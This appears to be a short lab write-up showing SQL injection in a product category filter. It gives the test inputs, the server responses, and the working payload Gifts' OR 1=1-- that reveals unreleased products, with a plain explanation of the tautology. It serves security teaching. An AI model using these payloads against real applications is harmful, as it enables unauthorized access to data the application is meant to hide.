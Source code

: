 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Goal:
`Cause the application to display one or more unreleased products`

### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The query is in the form
`SELECT * FROM products WHERE category = '<input>' AND released = 1`
<br><br><br>

**<ins>Step 1: Test injection point</ins>**

category=Gifts'

`500: server error`

category=Gifts'--

`200`

This confirms that the server is inserting our input directly into the query
<br><br>

**<ins>Step 2: Exploit the vulnerability</ins>**

category=Gifts' OR 1=1--

`Success!`

This request sends the server this query:

`category=Gifts' OR 1=1`

This will show us all products where the category is Gifts OR where 1=1. 1=1 is always true, so we will see all products in the database.